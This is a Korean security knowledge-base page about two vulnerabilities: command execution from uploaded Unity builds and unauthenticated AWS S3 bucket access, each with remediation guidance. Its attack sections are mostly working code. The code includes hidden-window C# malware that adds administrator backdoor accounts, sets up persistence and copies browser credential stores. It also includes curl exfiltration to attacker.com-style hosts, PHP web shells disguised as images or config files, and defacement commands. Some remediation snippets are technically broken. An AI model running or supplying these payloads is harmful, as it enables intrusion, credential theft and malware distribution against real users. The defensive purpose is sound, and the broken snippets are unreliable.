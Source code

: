 <details>
<summary><strong>Unity Command Injection</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 유니티 파일 업로드 시스템 명령어 실행 취약점이란?
웹 사이트에서 유니티 빌드 파일을 업로드하는 기능에서, 악성 스크립트가 포함된 파일에 대한 적절한 검증 없이 업로드를 허용할 때 발생하는 취약점입니다. 사용자가 해당 파일을 실행하면 악성 스크립트를 통해 시스템 명령어가 실행될 수 있습니다.

### 취약점 발생 위치
- **서버 측**: 유니티 빌드 파일 업로드 처리 과정
- **클라이언트 측**: 업로드된 유니티 파일 실행 시점
- **실행 환경**: 사용자 브라우저 또는 유니티 런타임 환경

### 공격 시나리오

#### 일반적인 공격 과정:
1. **악성 스크립트 작성**: C# 스크립트에 시스템 명령어 실행 코드 삽입
2. **유니티 프로젝트 빌드**: 악성 스크립트가 포함된 유니티 파일 생성
3. **파일 업로드**: 웹사이트에 악성 유니티 파일 업로드
4. **사용자 유인**: 정상적인 게임이나 애플리케이션으로 위장
5. **실행 및 공격**: 사용자가 버튼 클릭 시 시스템 명령어 실행

### 취약한 코드 패턴

#### 기본적인 악성 스크립트 구조:
```csharp
using UnityEngine;
using System.Diagnostics;

public class OpenURL : MonoBehaviour 
{
    public void testURL() 
    {
        // 기본 시스템 명령어 실행
        string cmdCommand = "/c start explorer \"C:\\\" & taskmgr & pause";
        Process.Start("cmd.exe", cmdCommand);
    }
}
```

#### 고급 악성 스크립트 패턴:
```csharp
using UnityEngine;
using System.Diagnostics;
using System.Collections;

public class AdvancedMalware : MonoBehaviour
{
    void Start()
    {
        // 지연 실행으로 탐지 회피
        StartCoroutine(DelayedExecution());
    }
    
    IEnumerator DelayedExecution()
    {
        yield return new WaitForSeconds(10f);
        
        // 시스템 정보 수집
        ExecuteCommand("systeminfo > %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 네트워크 정보 수집
        ExecuteCommand("ipconfig /all >> %temp%\\sysinfo.txt");
        
        yield return new WaitForSeconds(2f);
        
        // 사용자 계정 생성
        ExecuteCommand("net user hacker password123 /add");
        
        // 관리자 그룹 추가
        ExecuteCommand("net localgroup administrators hacker /add");
    }
    
    void ExecuteCommand(string command)
    {
        try
        {
            ProcessStartInfo startInfo = new ProcessStartInfo();
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "/c " + command;
            startInfo.WindowStyle = ProcessWindowStyle.Hidden;
            startInfo.CreateNoWindow = true;
            
            Process.Start(startInfo);
        }
        catch (System.Exception e)
        {
            Debug.Log("Command execution failed: " + e.Message);
        }
    }
}
```

### 공격 유형별 분류

#### 1.1. 직접 시스템 명령어 실행
```csharp
// 파일 시스템 조작
Process.Start("cmd.exe", "/c copy %USERPROFILE%\\Documents\\*.* %temp%\\stolen\\");

// 네트워크 스캔
Process.Start("cmd.exe", "/c for /L %i in (1,1,254) do ping -n 1 192.168.1.%i");

// 시스템 정보 수집
Process.Start("cmd.exe", "/c whoami /all > %temp%\\userinfo.txt");
```

#### 1.2. 권한 상승 시도
```csharp
// 관리자 계정 활성화
Process.Start("cmd.exe", "/c net user administrator /active:yes");

// 새로운 관리자 계정 생성
Process.Start("cmd.exe", "/c net user backdoor P@ssw0rd123! /add");
Process.Start("cmd.exe", "/c net localgroup administrators backdoor /add");

// UAC 우회 시도
Process.Start("cmd.exe", "/c reg add HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG_SZ");
```

#### 1.3. 지속성 확보
```csharp
// 시작 프로그램 등록
Process.Start("cmd.exe", "/c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run /v SystemUpdate /d C:\\temp\\malware.exe");

// 스케줄 작업 생성
Process.Start("cmd.exe", "/c schtasks /create /tn \"WindowsUpdate\" /tr \"C:\\temp\\backdoor.exe\" /sc daily /st 09:00");

// 서비스 등록
Process.Start("cmd.exe", "/c sc create BackdoorService binPath=\"C:\\temp\\service.exe\" start=auto");
```

#### 1.4. 데이터 탈취
```csharp
// 브라우저 데이터 수집
Process.Start("cmd.exe", "/c copy \"%LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Login Data\" %temp%\\chrome_data.db");
Process.Start("cmd.exe", "/c copy \"%APPDATA%\\Mozilla\\Firefox\\Profiles\\*.default\\logins.json\" %temp%\\");

// 문서 파일 수집
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.pdf /c \"cmd /c copy @path %temp%\\docs\\\"");
Process.Start("cmd.exe", "/c forfiles /p %USERPROFILE% /s /m *.docx /c \"cmd /c copy @path %temp%\\docs\\\"");

// 데이터 외부 전송
Process.Start("cmd.exe", "/c curl -X POST -F \"file=@%temp%\\stolen_data.zip\" http://attacker.com/upload");
```

### 기술적 동작 원리

#### Unity WebGL vs Standalone 차이점:
```csharp
#if UNITY_WEBGL
    // WebGL에서는 일반적으로 System.Diagnostics.Process가 제한됨
    // 하지만 특정 조건에서 브라우저 API 활용 가능
    Application.ExternalEval("window.open('file:///C:/', '_blank');");
    
#elif UNITY_STANDALONE
    // Standalone 빌드에서는 직접적인 시스템 접근 가능
    Process.Start("cmd.exe", "/c dir C:\\ > %temp%\\directories.txt");
    
    // PowerShell 실행도 가능
    Process.Start("powershell.exe", "-Command Get-Process | Out-File %temp%\\processes.txt");
    
#endif
```

#### UI 이벤트와 연결:
```csharp
using UnityEngine;
using UnityEngine.UI;
using System.Diagnostics;

public class MaliciousButton : MonoBehaviour
{
    void Start()
    {
        // 버튼 컴포넌트 가져오기
        Button btn = GetComponent<Button>();
        
        // 클릭 이벤트에 악성 함수 연결
        btn.onClick.AddListener(() => {
            ExecuteMaliciousCode();
        });
        
        // 또는 다른 UI 이벤트 활용
        btn.onClick.AddListener(delegate { StartCoroutine(DelayedAttack()); });
    }
    
    void ExecuteMaliciousCode()
    {
        // 사용자가 버튼을 클릭하는 순간 실행
        Process.Start("cmd.exe", "/c taskmgr & explorer C:\\");
    }
    
    System.Collections.IEnumerator DelayedAttack()
    {
        // 5초 후 실행하여 의심을 피함
        yield return new WaitForSeconds(5f);
        
        Process.Start("cmd.exe", "/c net user attacker P@ssw0rd! /add /comment:\"System Account\"");
    }
}
```

---

## 2. 조치 가이드

### 2.1. 파일 업로드 검증

#### 2.1.1. 기본 파일 검증
```php
// 파일 확장자 및 크기 제한
$allowed_ext = ['unity3d', 'unityweb'];
$max_size = 10 * 1024 * 1024; // 10MB

if (!in_array($ext, $allowed_ext) || $file_size > $max_size) {
    reject_upload();
}
```

#### 2.1.2. 압축 파일 내용 스캔
```python
import zipfile
import re

def scan_unity_file(file_path):
    dangerous_patterns = [
        r'Process\.Start',
        r'System\.Diagnostics',
        r'cmd\.exe',
        r'net\s+user',
        r'reg\s+add'
    ]
    
    with zipfile.ZipFile(file_path, 'r') as zip_file:
        for file_info in zip_file.filelist:
            if file_info.filename.endswith('.cs'):
                content = zip_file.read(file_info).decode('utf-8', errors='ignore')
                
                for pattern in dangerous_patterns:
                    if re.search(pattern, content, re.IGNORECASE):
                        return False  # 위험한 패턴 발견
    
    return True  # 안전
```

### 2.2. 실행 환경 보안

#### 2.2.1. 샌드박스 실행 환경 구축
```bash
# Docker를 이용한 격리된 실행 환경
FROM ubuntu:20.04
RUN useradd -m -s /bin/bash unity_user
USER unity_user
WORKDIR /sandbox

# 네트워크 접근 차단
RUN iptables -A OUTPUT -j DROP

# 파일 시스템 접근 제한
RUN mount -o ro /usr/bin
```

#### 2.2.2. 브라우저 보안 정책
```html
<!-- Content Security Policy 적용 -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' 'unsafe-eval';">

<!-- 권한 정책 제한 -->
<meta http-equiv="Permissions-Policy" 
      content="camera=(), microphone=(), geolocation=()">
```

### 2.3. 관리자 승인 시스템

#### 2.3.1. 수동 검토 프로세스
```sql
-- 승인 대기 테이블 생성
CREATE TABLE file_approvals (
    id INT AUTO_INCREMENT PRIMARY KEY,
    filename VARCHAR(255),
    upload_time DATETIME,
    status ENUM('pending', 'approved', 'rejected'),
    reviewer_id INT
);
```

#### 2.3.2. 48시간 검토 기간 설정
```php
// 업로드 후 48시간 대기 후 공개
$public_time = date('Y-m-d H:i:s', strtotime('+48 hours'));
$stmt = $pdo->prepare("UPDATE files SET public_time = ? WHERE id = ?");
$stmt->execute([$public_time, $file_id]);
```

### 2.4. 모니터링 시스템

#### 2.4.1. 실시간 로그 모니터링
```bash
# 시스템 명령어 실행 감지
tail -f /var/log/syslog | grep -E "(cmd.exe|powershell|net user)" | \
while read line; do
    echo "ALERT: Suspicious command detected - $line"
    # 관리자에게 알림 전송
done
```

#### 2.4.2. 파일 실행 추적
```javascript
// Unity WebGL 실행 시 모니터링
window.addEventListener('beforeunload', function(e) {
    // 비정상 종료 시 서버에 보고
    navigator.sendBeacon('/security-alert', {
        type: 'abnormal_exit',
        timestamp: new Date().toISOString()
    });
});
```

### 2.5. 응급 대응 절차

#### 2.5.1. 악성 파일 발견 시 조치
```bash
# 1. 즉시 파일 격리
mv /var/www/uploads/malicious_file.unity3d /quarantine/

# 2. 접근 로그 확인
grep "malicious_file" /var/log/apache2/access.log

# 3. 영향받은 사용자 파악
mysql -e "SELECT user_id, access_time FROM access_logs WHERE file_name LIKE '%malicious_file%'"
```

#### 2.5.2. 사용자 알림 및 조치
```php
// 긴급 보안 알림 발송
function send_security_alert($affected_users) {
    foreach ($affected_users as $user) {
        mail($user['email'], 
             '보안 알림', 
             '최근 실행하신 파일에서 보안 위험이 발견되어 제거했습니다. PC 검사를 권장합니다.');
    }
```
</details>

&nbsp;
&nbsp;

<details>
<summary><strong>파일 업로드 취약점 (AWS S3 무인증 접근)</strong></summary>

## 목차
1. [정의&원리](#1-정의원리)
2. [조치 가이드](#2-조치-가이드)

---

## 1. 정의&원리

### 파일 업로드 취약점이란?
AWS S3 버킷이 잘못 구성되어 `--no-sign-request` 옵션을 통해 인증 없이 접근 가능할 때 발생하는 취약점입니다. 공격자가 AWS CLI를 사용하여 인증 절차 없이 S3 버킷에 접근하여 파일 업로드, 다운로드, 나열 등의 작업을 수행할 수 있습니다.

### 취약점 발생 위치
**AWS CLI를 통한 AWS S3 서버 접근**
- S3 버킷의 퍼블릭 정책 설정 오류
- 버킷 ACL(Access Control List) 잘못된 구성
- IAM 정책의 과도한 권한 부여

### 상세 공격 과정 (페이로드)

#### 1단계: AWS CLI 설치 및 버킷 접근
```bash
# AWS CLI 설치
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install

# 무인증 버킷 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl
```

**명령어 옵션 상세 분석:**
- `--no-sign-request`: AWS 액세스 키 없이 요청 서명 생략
- `--no-verify-ssl`: SSL 인증서 검증 우회 (자체 서명 인증서 환경)
- `s3://test_s3_URL`: 타겟 S3 버킷 URL

#### 2단계: 권한 테스트 및 정보 수집
```bash
# 버킷 내 전체 파일 구조 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --no-verify-ssl

# 버킷 정책 정보 수집
aws s3api get-bucket-policy --bucket test_s3_URL --no-sign-request 2>/dev/null

# 버킷 위치 및 설정 정보
aws s3api get-bucket-location --bucket test_s3_URL --no-sign-request
aws s3api get-bucket-acl --bucket test_s3_URL --no-sign-request

# 버킷 크기 및 객체 수 파악
aws s3 ls s3://test_s3_URL --recursive --no-sign-request --summarize
```

#### 3단계: 파일 다운로드 (확장자 검증 없음)
```bash
# 민감한 파일 패턴 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|config|key|pem|p12|jks)$"

# 설정 파일 다운로드
aws s3 cp s3://test_s3_URL/.env ./stolen_configs/ --no-sign-request --no-verify-ssl
aws s3 cp s3://test_s3_URL/config/database.yml ./stolen_configs/ --no-sign-request --no-verify-ssl

# 사용자 업로드 파일 일괄 다운로드
aws s3 sync s3://test_s3_URL/uploads/ ./stolen_user_files/ --no-sign-request --no-verify-ssl

# 백업 파일 탈취
aws s3 cp s3://test_s3_URL/backups/ ./stolen_backups/ --recursive --no-sign-request --no-verify-ssl
```

#### 4단계: 악성 파일 업로드 (확장자 검증 없음)
```bash
# 웹쉘 업로드
echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' > backdoor.php
aws s3 cp backdoor.php s3://test_s3_URL/public/images/logo.php --no-sign-request --no-verify-ssl

# 피싱 페이지 업로드
aws s3 cp phishing_login.html s3://test_s3_URL/login.html --no-sign-request --no-verify-ssl

# 멀웨어 배포
aws s3 cp trojan.exe s3://test_s3_URL/downloads/security_update.exe --no-sign-request --no-verify-ssl

# 크립토마이너 업로드
aws s3 cp cryptominer.js s3://test_s3_URL/assets/jquery.min.js --no-sign-request --no-verify-ssl
```

### 발생 원인 분석

#### 주요 원인: AWS S3 서버 설정 오류로 인한 무인증 접근
1. **퍼블릭 읽기 권한 설정**: 버킷이 `public-read` 또는 `public-read-write`로 설정
2. **잘못된 버킷 정책**: `Principal: "*"`로 모든 사용자에게 권한 부여
3. **ACL 설정 오류**: `AllUsers` 그룹에 대한 권한 부여
4. **IAM 정책 오설정**: 과도한 권한이 퍼블릭으로 노출

#### 취약한 S3 버킷 정책 예시:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "PublicReadGetObject",
            "Effect": "Allow",
            "Principal": "*",  // 모든 사용자 허용 (위험)
            "Action": [
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:ListBucket",
                "s3:PutObject"  // 업로드 권한까지 부여 (매우 위험)
            ],
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

#### 위험한 ACL 설정:
```bash
# 모든 사용자에게 읽기/쓰기 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl public-read-write

# 인증된 사용자에게 모든 권한 부여 (위험)
aws s3api put-bucket-acl --bucket test_s3_URL --acl authenticated-read
```

### 실제 공격 시나리오

#### 시나리오 1: 데이터 탈취
```bash
# 1. 버킷 발견 및 접근 테스트
aws s3 ls s3://test_s3_URL --no-sign-request --no-verify-ssl

# 2. 민감한 파일 검색
aws s3 ls s3://test_s3_URL --recursive --no-sign-request | grep -E "\.(env|yml|json|sql|log)$"

# 3. 대용량 데이터 일괄 다운로드
aws s3 sync s3://test_s3_URL/user_data/ ./stolen_data/ --no-sign-request --no-verify-ssl

# 4. 압축하여 외부 서버로 전송
tar -czf stolen_data.tar.gz ./stolen_data/
curl -X POST -F "file=@stolen_data.tar.gz" http://attacker-server.com/collect
```

#### 시나리오 2: 서비스 방해 및 변조
```bash
# 1. 중요 파일 삭제
aws s3 rm s3://test_s3_URL/config/app.yml --no-sign-request

# 2. 대용량 파일 업로드로 스토리지 소모
dd if=/dev/zero of=garbage.bin bs=1M count=1000  # 1GB 파일 생성
aws s3 cp garbage.bin s3://test_s3_URL/ --no-sign-request

# 3. 웹사이트 메인 페이지 변조
echo "<h1>Hacked by Attacker</h1>" > defaced.html
aws s3 cp defaced.html s3://test_s3_URL/index.html --no-sign-request
```

#### 시나리오 3: 악성 파일 배포
```bash
# 1. 멀웨어 업로드 및 정상 파일로 위장
aws s3 cp malware.exe s3://test_s3_URL/downloads/software_update.exe --no-sign-request

# 2. 피싱 페이지 배포
aws s3 cp fake_login.html s3://test_s3_URL/secure/login.html --no-sign-request

# 3. 웹쉘 업로드
echo '<?php system($_GET["c"]); ?>' > shell.php
aws s3 cp shell.php s3://test_s3_URL/assets/config.php --no-sign-request
```

### 고급 공격 기법

#### 타이밍 기반 공격:
```bash
# 새벽 시간대 대용량 업로드 (탐지 회피)
crontab -e
# 0 2 * * * aws s3 sync /tmp/malicious_files/ s3://test_s3_URL/hidden/ --no-sign-request
```

#### 분산 공격:
```bash
# 여러 IP에서 동시 접근으로 탐지 회피
for ip in 1.2.3.4 5.6.7.8 9.10.11.12; do
    ssh $ip "aws s3 cp s3://test_s3_URL/sensitive_data.sql ./data_$ip.sql --no-sign-request"
done
```

#### 스테가노그래피 활용:
```bash
# 이미지 파일에 데이터 숨기기
steghide embed -cf innocent_image.jpg -ef stolen_data.txt -p password123
aws s3 cp innocent_image.jpg s3://test_s3_URL/images/gallery001.jpg --no-sign-request
```

---

## 2. 조치 가이드

### 2.1. 퍼블릭 액세스 즉시 차단
```bash
# S3 퍼블릭 액세스 완전 차단
aws s3api put-public-access-block \
    --bucket test_s3_URL \
    --public-access-block-configuration \
    "BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true"
```

### 2.2. 버킷 정책 수정
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Deny",
            "Principal": "*",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::test_s3_URL",
                "arn:aws:s3:::test_s3_URL/*"
            ]
        }
    ]
}
```

### 2.3. CloudTrail 모니터링 활성화
```bash
# S3 데이터 이벤트 로깅 활성화
aws cloudtrail put-event-selectors \
    --trail-name s3-monitoring \
    --event-selectors ReadWriteType=All,IncludeManagementEvents=true,DataResources=[{Type=AWS::S3::Object,Values=["arn:aws:s3:::test_s3_URL/*"]}]
```

### 2.4. 응급 격리 조치
```bash
# 1. 버킷 정책 즉시 제거
aws s3api delete-bucket-policy --bucket test_s3_URL

# 2. 의심스러운 파일 확인
aws s3 ls s3://test_s3_URL --recursive | grep -E "\.(php|jsp|asp|exe)$"

# 3. 최근 업로드 파일 격리
aws s3 mv s3://test_s3_URL/suspicious_file.php s3://quarantine-bucket/
```

### 2.5. 보안 강화 설정
```bash
# MFA 삭제 보호 활성화
aws s3api put-bucket-versioning \
    --bucket test_s3_URL \
    --versioning-configuration Status=Enabled,MFADelete=Enabled

# 암호화 강제 적용
aws s3api put-bucket-encryption \
    --bucket test_s3_URL \
    --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"AES256"}}]}'
```
</details>
